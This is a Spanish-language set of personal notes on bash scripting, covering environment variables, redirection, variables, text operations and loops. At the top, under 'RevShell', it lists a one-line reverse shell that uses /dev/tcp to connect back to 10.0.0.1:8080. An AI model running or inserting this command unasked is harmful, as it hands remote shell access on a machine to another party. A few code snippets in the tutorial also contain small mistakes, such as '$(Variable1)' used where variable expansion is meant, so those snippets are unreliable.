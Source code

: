 ```yaml
---
title: bash
---
```


# Cheatsheet

## RevShell

```bash
bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

# Scripting
## 1. Bash environment

Al inicializar una bash, el sistema suele llamar a archivos como *~/.bashrc*, *~/.bash_login* ó *~/.bash_profile*. De igual forma, al cerrarse se llama a *~/.bash_logout*. Muy ligado a este entorno, están las **variables de entorno** (*environment variables*).

### 1.1 Variables de entorno

Podemos ver estas variables como variables típicas en programación. Podemos verlas con el comando `env`.

Una de las más importantes es el `PATH`, podemos verla con `echo $PATH`. Contine una serie de rutas con el formato `[location]:[location]:...:[location]`, que son las rutas donde bash buscará los archivos binarios al llamar a un comando.

### 1.2 Programas y comandos

En bash existen programas predefinidos que nos permiten ejecutar ciertas acciones muy útiles, éstos están contenidos en rutas del PATH, por lo que podemos verlas con `which <comando>`. De igual forma, con `man <comando>` podemos consultar el manual para dicho comando.

Los comandos suelen tener una salida ó *output* que se muestra por la propia terminal, sin embargo, en ocasiones, nos interesa redirigir la salida de un comando:

- **`>`** -> Redirige la salida a un fichero, sobreescribiéndolo.
- **`>>`** -> También redirige la salida a un fichero, pero añade al contenido del propio fichero (no sobreescribe).
- **`|`** -> Redirige la salida como parámetro del siguiente comando. Se conoce como *pipe*.
- **`&&`** Si la salida del comando anterior es exitosa, ejecuta el siguiente comando.

Pero además de comandos podemos ejecutar programas que deben tener la extensión `.sh`, para ello simplemente los llamamos con `bash ./programa.sh`. Además para especificar que queremos utilizar bash sin tener que ponerlo explícitamente utilizamos un *shebang*, es decir una línea que especifíca qué programa debe ejecutar el archivo:

```
#!/bin/bash
```


## 2. Variables

Bash es un lenguaje con un tipado ligero, haciendo tan fácil la asignación de variables (no hace falta inicialización) como:

```bash
nombre=valor  #Asignacion de un valor simple
nombre=$(comando)  #Asignación del resultado de un comando
nombre=$((expr_matematica))  #Asignacion del resultado de una operacion
```

Para acceder al contenido de una variable basta con utilizar `$` delante:

```bash
echo $variable
```

### 2.1 Texto

En bash podemos especificar texto mediante comillas simples `' '` ó comillas dobles, `" "`. La diferencia está en que las segundas interpretan lo que hay dentro, pudiendo incorporar variables:

```bash
echo "Variable1 = $(Variable1)"
```

Operaciones sobre texto:

- Para extraer parte de un texto, es tan sencillo como `echo ${cadena:1:2}`
- En el caso de que lo que quieras hacer es sustituir texto la operación es `echo ${texto/de/a}`
- Eliminar todas las apariciones de un texto dentro de otro `echo ${texto//de}`
- 
Estas operaciones se pueden hacer tanto con texto como con números. Al final, al utilizar `${}` lo trata como si fuera un texto.


## 3. Bucles y condicionales

### 3.1 IF

El esquema sería:

```bash
if <condition>; then
	<comand>
elif <condition>; then
	<comand>
else <condition>
	<comand>
fi
```

Lo difícil son las condiciones, que pueden llegar a tener una sintaxis algo compleja. Para un mayor detalle en cuanto a los operadores consulta esta [página](https://www.tldp.org/LDP/abs/html/comparison-ops.html). Los operadores para números serían:

```bash
-eq #equal
-ne #not equal
-lt #less than
-le #less or equal than
-gt #greater than
-ge #greater or equal than
```


### 3.2 FOR

La estructura sería:

```bash
for i in x; do
	<comand>
done
```

Como en otros lenguajes, sirve para recorrer los elementos contenidos en otro. Para iterar entre números se utiliza `seq` (importante que utiliza \`, no ' ):

```bash
for i in `seq 1 10`; do
```


### 3.3 WHILE

Igual que lo anteriores es igual que en otros lenguajes. La estructura sería:

```bash
while <condition>; do
	<comand1>;
	<comand2>;
done
```

Suele utilizarse para leer archivos:

```bash
while read line; do echo $line; done < file.txt
```

## - Comandos útiles

- **cat** muestra el contenido de un archivo por pantalla.  
- **[[grep]]** muy útil para filtrar un archivo por [[expresiones regulares]].
- **cut** nos permite recortar secciones de código.
- **sort**
- **xargs**
- **tr** convierte o elimina secciones de texto (*translate or replace*).
- **[[curl]]**
- 